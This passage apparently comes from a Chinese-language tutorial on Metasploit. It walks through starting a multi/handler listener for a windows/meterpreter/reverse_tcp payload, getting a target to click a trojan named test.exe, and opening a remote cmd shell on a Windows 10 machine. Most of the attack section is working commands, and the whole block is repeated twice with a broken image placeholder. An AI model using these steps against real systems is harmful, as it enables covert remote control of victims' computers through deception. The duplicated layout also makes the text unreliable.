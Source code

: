 ![image-20250411110707974](https://gitee.com/ljh00928/csdn/raw/master/img/798ab6693aca139d789caf683337f219.png)

然后把木马传输到主机

## 2.控制端启动msfconsole，获取监听

```bash
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 0.0.0.0
msf5 exploit(multi/handler) > set LPORT 5577
msf5 exploit(multi/handler) > run

一句话：
handler -p windows/meterpreter/reverse_tcp -H kaili的ip地址 -P 5577
```

这时候只需要诱惑点击我们的test.exe文件。我们就可以进入到meterpreter界面了。

## 3.反弹成功

因为我win7拖拽文件有问题。这里我使用Win10做靶机。

成功获取到对话：

![image-20250411111842192](https://gitee.com/ljh00928/csdn/raw/master/img/34d1f6da425cb3c8e328d6eae9bca64e.png)

我们输入： `shell`即可切换到目标主机的`windows cmd_shell`里面：

```shell
shell         #获取目标主机的cmd_shell权限
chcp 65001    #这里为了避免目标主机cmd_shell字符乱码，设置目标主机命令行的字符编码，65001是UTF-8
```

然后把木马传输到主机

## 2.控制端启动msfconsole，获取监听

```bash
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 0.0.0.0
msf5 exploit(multi/handler) > set LPORT 5577
msf5 exploit(multi/handler) > run

一句话：
handler -p windows/meterpreter/reverse_tcp -H kaili的ip地址 -P 5577
```

这时候只需要诱惑点击我们的test.exe文件。我们就可以进入到meterpreter界面了。

## 3.反弹成功

因为我win7拖拽文件有问题。这里我使用Win10做靶机。

成功获取到对话：

[外链图片转存中...(img-iM5SHzMh-1744342215955)]

我们输入： `shell`即可切换到目标主机的`windows cmd_shell`里面：

```shell
shell         #获取目标主机的cmd_shell权限
chcp 65001    #这里为了避免目标主机cmd_shell字符乱码，设置目标主机命令行的字符编码，65001是UTF-8
```